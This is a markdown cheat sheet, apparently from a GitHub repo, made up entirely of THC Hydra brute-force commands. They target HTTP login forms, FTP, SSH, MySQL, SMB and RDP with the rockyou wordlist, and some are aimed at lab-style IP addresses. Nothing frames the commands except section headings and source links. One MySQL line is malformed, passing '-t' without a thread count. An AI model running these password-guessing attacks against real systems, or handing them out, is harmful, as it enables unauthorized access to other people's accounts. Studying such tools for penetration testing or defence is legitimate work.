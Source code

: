 # Brute Force THCHydra

## HTTP Post Web Form

$ hydra -l user -P /usr/share/wordlists/rockyou.txt $IP http-post-form "<Login Page>:<Request Body>:<Error Message>"

$ hydra -l admin -P /dir/passwd-list.txt http://example.com  http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V

$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.12.183 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."

$hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.4.149 http-post-form "/admin/:user=^USER^&pass=^PASS^:Username or password invalid"

$ hydra -l user -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"

## FTP

$ hydra -l user-name -P /usr/share/wordlists/rockyou.txt <IP Address> ftp

$ hydra -L /dir/users.txt -P /dir/passlist.txt ftp://<IP_Address>

## SSH

$ hydra -l <username> -P <full path to passlist.txt> <IP Address Target> -t 4 ssh

$ hydra -L <full path to usernamelist.txt> -P <full path to passlist.txt> ssh://IP_Address:22

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt <IP Address Target> -t 4 ssh

## MySQL

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt <IP Address Target> -t mysql

## SMB

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt <IP Address Target> -t 4 smb

## RDP

$ hydra -l <username> -P <full path to passlist.txt> <IP Address> rdp

$ hydra -L <full/path_to_usernamelist.txt> -P <full/path_to_passlist.txt> -t 4 -W 3 rdp://IP_Address:3389/

## Links

Fonte: https://www.stationx.net/how-to-use-hydra

Fonte: https://www.kali.org/tools/hydra

Fonte: https://github.com/vanhauser-thc/thc-hydra
